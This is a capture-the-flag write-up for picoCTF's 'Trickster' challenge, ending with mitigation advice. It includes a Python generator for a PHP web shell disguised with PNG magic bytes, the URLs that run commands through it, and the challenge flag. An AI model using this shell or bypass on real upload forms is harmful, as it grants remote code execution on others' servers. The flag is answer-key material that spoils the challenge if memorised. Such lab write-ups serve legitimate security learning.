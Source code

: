 ## 🃏 Trickster 

I really enjoyed this challenge since it was my first time dealing with **magic bytes**! 🪄  
So let's jump right in. ⏩

---

### 🔍 1. Initial Attempts:

- ❌ Tried injecting files like `file.anythingexceptforpng` → **failed**  
- ❌ Then tried `file.png.php` → **failed**  

---

### 🔎 2. Reconnaissance:

Like many websites, I checked `url/robots.txt` and found: 📜

![robots.txt](https://github.com/user-attachments/assets/c431c322-8de1-430b-beb9-e8ae7eab8647)

Then, I checked `url/instructions.txt` and found: 🗒️

![instructions.txt](https://github.com/user-attachments/assets/c0ee9885-3595-4885-ab76-129578697d82)

---

### 🎩 3. Magic Bytes Investigation:

Ah-ha! The **magic bytes**. ✨  
After some research, I learned more about **PNG file magic bytes** and how they work.

**Key Takeaway:**  
✅ **You must add the magic bytes of a PNG file at the beginning to bypass the restrictions.**  

---

### 🖥️ 4. Generating the Payload:

I generated a **payload** using **Python** 🐍:

```python
magic_bytes = b'\x89PNG\r\n\x1a\n'

php_code = b"""<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    $output = shell_exec($cmd);
    echo "<pre>" . htmlspecialchars($output) . "</pre>";
} else {
    echo "Please provide ?cmd=";
}
?>"""

with open("null.png.php", "wb") as f:
    f.write(magic_bytes)
    f.write(php_code)

print("✅ Created 'null.png.php' with valid PNG magic bytes + PHP command execution payload")
```

🛠️ You **can** manually intercept the request using **Burp Suite**, but automation makes it easier!

---

### ⬆️ 5. Upload and Test:

✅ **Uploaded `null.png.php` successfully!**  
This means **we are on the right track**. 🏆  

---

### 📂 6. Exploring the Uploads Directory:

From the initial investigation, we know there's a `/uploads` directory.  
So, let's **try accessing our uploaded file directly**:

```
url/uploads/null.png.php?cmd=ls -al
```

📸 **Screenshot of directory listing:**  

![directory listing](https://github.com/user-attachments/assets/f03c3cab-5216-4282-be5d-0999062becd7)

Hmm... **Not much interesting here**. 🔍  
Let’s **try reading some files** instead. 📜  

---

### 📖 7. Reading Parent Directory Files:

```
url/uploads/null.png.php?cmd=cat ../*
```

I **didn't know the exact filenames**, so I just **tried a wildcard**. 🎯  

🎉 **And there it is!**  

![flag found](https://github.com/user-attachments/assets/193e8e19-35c1-4f94-b920-c8a66317a8d7)

---

### 🏁 The Flag:

```
🏆 picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} 🏆
```

---

## 🎓 Lessons Learned:

💡 **Magic bytes are a simple but effective check** in many file upload protections.  
💡 **Understanding file headers** can help bypass naive validation.  
💡 **Intercepting requests** using **Burp Suite** can help manipulate content.  
💡 **Uploading a webshell disguised as a PNG** can lead to **Remote Code Execution**.  
💡 **Directory traversal + command injection** can expose sensitive files.  

---

## 🛡️ Vulnerability Assessment:

This challenge **demonstrates a classic file upload vulnerability** due to **insufficient validation**:

❌ **Server only checks for PNG magic bytes** but does **not validate actual file content.**  
❌ **Attackers can prepend magic bytes to a PHP script** and upload it as an image.  
❌ **Executing uploaded script leads to Remote Code Execution (RCE).**  
❌ **Server lacks isolation or sandboxing**, exposing sensitive directories.

⚠️ **Mitigation Strategies:**
✔️ **Validate file content beyond magic bytes** (e.g., using image parsing libraries).  
✔️ **Block execution permissions on upload directories** 🔒  
✔️ **Enforce strict filename validation** ✅  
✔️ **Implement Web Application Firewalls (WAF) to detect suspicious payloads** 🚧  

  
